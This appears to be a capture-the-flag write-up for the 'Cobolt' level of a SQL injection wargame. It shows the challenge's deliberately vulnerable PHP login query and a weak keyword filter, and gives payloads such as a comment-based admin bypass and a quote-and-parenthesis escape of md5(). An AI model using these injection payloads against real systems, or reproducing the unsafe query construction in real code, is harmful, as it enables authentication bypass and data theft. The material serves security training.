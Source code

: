 # **Cobolt**
## 1. What will we learn from this problem?
This problem wants to make sure you know basic **SQL injection**      

## 2. Analize codes  
    <?php
      include "./config.php"; 
      login_chk();
      dbconnect();
      
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id]))  
        exit("No Hack ~_~");  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");   

      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      if($result['id'] == 'admin')  
        solve("cobolt");
      
      elseif($result['id'])  
        echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
      
      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
We can't use string like these.(scope : id, pw)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

### 2. query
Query is this.

    select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  

But there is no need to know the password  

Then How can we do that?

## 3. Solution  
This is quite simple problem. There are two ways to modulate this query.  
These are id and pw.  

If we use id parameter, we use annotation keyword.  
And if we use pw parameter, we have to use ) char to escape md5() function.  
  
### Using Keyword  

    or | ' | ) | --

### These are my answers.
    
    ?id=admin'%20--%20  
      
    ?pw=')or id=('admin

    ?pw=')||id='admin'%20--%20

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**